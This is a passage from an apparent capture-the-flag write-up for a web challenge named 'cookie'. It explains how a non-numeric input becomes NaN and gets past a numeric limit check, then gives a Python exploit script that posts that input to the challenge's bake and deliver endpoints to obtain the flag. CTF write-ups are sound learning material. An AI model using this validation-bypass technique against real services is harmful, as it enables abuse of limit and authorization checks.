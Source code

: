 ```js
    }
})
```

Because `NaN` is not a legal number so javascript will return `false` when we compare it with `1000000000`. <br>

Here is the script to exploit.

```python
import requests

def exploit_cookie_challenge():
    BASE_URL = "https://cookie.dicec.tf"
    BAKE_URL = f"{BASE_URL}/bake"
    DELIVER_URL = f"{BASE_URL}/deliver"

    headers = {
        "accept": "*/*",
        "content-length": "0",
        "origin": "https://cookie.dicec.tf",
        "referer": "https://cookie.dicec.tf/",
    }

    session = requests.Session()
    initial_response = session.get(BASE_URL)
    
    if 'user' not in session.cookies:
        print("Failed to get user cookie!")
        return

    user_cookie = session.cookies['user']
    print(f"[+] Got user cookie: {user_cookie}")

    exploit_number = "fg"
    
    try:
        bake_response = session.post(
            f"{BAKE_URL}?number={exploit_number}",
            headers=headers
        )
        print(f"[+] Bake response: {bake_response.text}")

        deliver_response = session.post(
            DELIVER_URL,
            headers=headers
        )
        print(f"[+] Deliver response: {deliver_response.text}")

        if "not enough" not in deliver_response.text.lower():
            print("[+] Success! Flag should be above!")
        else:
            print("[-] Failed to get enough cookies")

    except requests.exceptions.RequestException as e:
        print(f"[-] Error during exploit: {e}")

if __name__ == "__main__":
    print("[+] Starting cookie challenge exploit...")
    exploit_cookie_challenge()
```
